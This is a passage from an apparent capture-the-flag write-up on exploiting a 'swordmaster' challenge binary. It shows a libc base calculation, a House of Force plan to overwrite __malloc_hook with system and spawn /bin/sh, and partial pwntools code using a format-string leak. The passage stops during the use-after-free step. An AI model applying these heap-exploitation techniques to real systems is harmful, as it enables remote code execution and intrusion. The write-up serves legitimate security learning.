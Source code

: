 `0x00007ffff7a03c87 - 0x21c87 = 0x7ffff79e2000 = libc base`

Nice, we now have everything we need to write an exploit!

## Exploit:
When doing research on House of Force, I found a [fantastic write-up](https://adamgold.github.io/posts/basic-heap-exploitation-house-of-force/) by Adam Force that explains a basic strategy to get RCE. The idea is to overwrite `__malloc_hook`, a function called before each malloc, with `system`, and pass it a pointer to `/bin/sh\0`. Therefore, our exploit will work as follows. 
1. Set our name to `/bin/sh\0`, which will be stored on the heap at an address we know through our leaks
2. Trigger the format string vuln to leak libc base
3. Choose menu option 5 to trigger the UAF vuln and then choose option 3 to leak the heap address
4. Use the craft sword function to corrupt the top chunk size
5. Use the craft sword function to allocate a chunk up to the address of `__malloc_hook`
6. Use the craft sword function to create chunk to overwrite `__malloc_hook` with the `system` address
7. Call craft sword one last time with a pointer to the name in our player object to get a shell.

### Step One:
We will use pwntools for this exploit. First we need to set up the binary to run with the provided `glibc` and then send it our name.

```python
from pwn import *

elf = ELF("./swordmaster")  
libc = ELF("./glibc/libc.so.6")  
p = elf.process(['./glibc/ld-linux-x86-64.so.2','./swordmaster'],env={"LD\_PRELOAD":"./glibc/libc.so.6"})  
  
p.sendline('/bin/sh\0')
```

### Step Two:
Next, we need to leak the libc address with the format string vulnerability. We can do so by waiting for the text prompt, sending `%13$p` as our class, and then parsing the address out of the received line. Lastly, we subtract `0x21c87` as described above and set `libc.address` accordingly. `pwntools` now knows the base address of libc and can load it's symbols at the proper addresses.

```python
p.recvuntil(b'>> ')  
p.sendline(b'%13$p')  
p.recvuntil('There is no ')  
  
libc_leak = p.recvline().split(b' ')[0]  
libc_leak = int(libc_leak[2:], 16)  
libc.address = libc_leak - 0x21c87
```

### Step 3: 
Similar to the above step, we need to interact with the program to exploit the UAF bug and get our heap base address. We do so by sending `5` to delete our player's class, and then sending `3` to display our stats. We can parse the received line and grab the leaked hex value, which we know from our previous recon will be the value of the previously allocated chunk. At this point in the program, the heap layout will always be the same, so we can use a static offset to get back to the heap base.
